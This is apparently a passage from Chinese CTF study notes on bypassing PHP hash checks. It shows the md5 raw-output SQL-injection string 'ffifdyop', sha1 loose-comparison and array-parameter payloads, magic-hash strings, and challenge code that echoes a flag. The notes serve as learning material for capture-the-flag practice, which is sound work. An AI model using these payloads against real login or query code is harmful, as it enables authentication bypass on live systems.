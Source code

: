 这需要一个极其特殊的md5的值 ffifdyop

这个字符串进行md5后恰好结果是’or’6�]��!r,��b，他的前四位为’or’正好满足sql注入查询的条件，因此可以完美绕

###  其他的hash值(md4,CRC32)

https://github.com/spaze/hashes

##  8.sha1的绕过

###  web104，106

```php
highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
} 
```

利用了sha1弱类型比较，跟MD5加密是一样的

利用数组绕过或者弱类型绕过

payload

```
GET:v2[]=1
POST:v1[]=2
还有一些字符串
aaroZmOk
aaK1STfY
aaO8zKZF
aa3OFF9m
```

如果是强类型转换

```php
if(sha1($v1)===sha1($v2) && $v1!=$v2){
        echo $flag;
    }
使用数组绕过，v1[]=1&v2[]=2
```

但是还有一种，直接把数组过滤了

```php
if(is_array($_GET['name']) || is_array($_GET['password']))
        die('There is no way you can sneak me, young man!');
 else if (sha1($_GET['name']) === sha1($_GET['password']))
      	echo $flag;
```
